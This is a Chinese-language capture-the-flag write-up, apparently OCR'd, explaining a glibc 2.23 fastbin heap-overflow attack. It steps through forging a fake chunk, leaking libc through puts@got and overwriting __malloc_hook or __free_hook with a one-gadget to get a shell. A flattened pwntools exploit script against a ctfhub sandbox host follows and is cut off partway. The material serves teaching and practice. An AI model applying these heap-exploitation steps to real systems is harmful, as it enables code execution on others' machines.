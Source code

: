 edit()函数存在堆溢出导致可以随意篡改下方其它chunk的字段和内容。

全局变量heapList上方存在可利用内存区用以构造FakeChunk。

###

### 利用流程

根据上述条件准备进行以下攻击：

① 申请3个heap(大小均为0x60)。

② 先后释放#2和#1。

③ 通过edit()函数溢出并篡改heap#1的fd指针指向0x60209d。

④ 重新申请回#1和#2，此时#2已指向fakeChunk->0x60209d。

⑤ 通过edit()修改heap#2填充13字节的payload到达0x6020C0既heapList[0]并向其中填入puts@got。

⑥ 通过show()函数打印出\*heapList[0]即puts函数地址并计算出libcBase。

⑦ 通过edit()再次修改heap#2以篡改heapList[0]值为&\_\_malloc\_hook或&\_\_free\_hook。

⑧ 通过edit()修改heap#0以篡改\_\_malloc\_hook或\_\_free\_hook以执行oneGadget。

###

### 利用原理

对于glibc堆管理的各类bins详细请参见

> CTF竞赛权威指南(Pwn篇)->11.1.3章

以下为简述:

程序中申请的大小为0x60的heap释放后均会进入fastbins->0x70分类中（由于glibc版本问题所以并不会进入tcache，调试时请注意使用的glibc版本）；

fastbins是一个后进先出的单链表，除分类中第一个进入的chunk外的每一个chunk->fd字段都指向上一个进入fastbins的chunk，也即当前chunk#1被弹出后下一个应该被弹出的chunk#0，既然这样我们就可以通过申请连续的chunk#0 chunk#1 chunk2并按顺序释放#chunk2、#chunk1，此时的chunk1->fd为#chunk2，意为当我们再次申请大小为0x60时会弹出chunk1并将chunk->fd作为下一个预备弹出的chunk。

此时我们通过edit()编辑chunk#0并且使用堆溢出篡改chunk1->fd使其指向一个fakeChunk，以达到读写fakeChunk的目的；注意：该FakeChunk->size需要符合fastbins的大小分类即0x70，根据上述分析已知在全局变量heapList上方存在符合条件的FakeChunk内存区，所以我们将chunk#1->fd指向该内存区，将其申请到手后可即可结合show() edit()进行任意读写。

可以任意读后即可泄露LibcBase，将函数got地址填入heapList[0]后使用show()函数即可达到泄露，而将&\_\_malloc\_hook或&\_\_free\_hook填入即可篡改此两个hook的指向，此两个hook的指向在分别在malloc()和free()函数调用时被调用，所以我们可以向其中填入oneGadget并再次调用add()或者delete()使其执行并且getShell。

#

#

```
三

Exploit
```

```
from pwn import * prog = "./pwn" local = Falsecontext(os='linux', arch='amd64', log_level='debug') elf = ELF("./pwn")libc = ELF("./libc-2.23.so") if local:    p = process(prog)    libc = ELF("/root/tools/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6")    #gdb.attach(p)    sleep(1)else:    p = remote("challenge-9647de804cb6da45.sandbox.ctfhub.com",34306) def add():    p.sendlineafter(">> ","1") def show(index):    p.sendlineafter(">> ","3")    p.sendlineafter("Index:\n",str(index)) def dele(index):    p.sendlineafter(">> ","2")    p.sendlineafter("Index:\n",str(index)) def edit(index,content):    p.sendlineafter(">> ","4")    p.sendlineafter("Index:\n",str(index))    p.sendlineafter("Size:\n","-1")    p.sendafter("Content:\n",content) add()#0add()#1add()#2 dele(2)dele(1) payload = b"\x99"*0x60payload += b"\x11"*8payload += p64(0x71)payload += p64(0x60209d)edit(0,payload) add()#1add()#2 fakeChunk-...
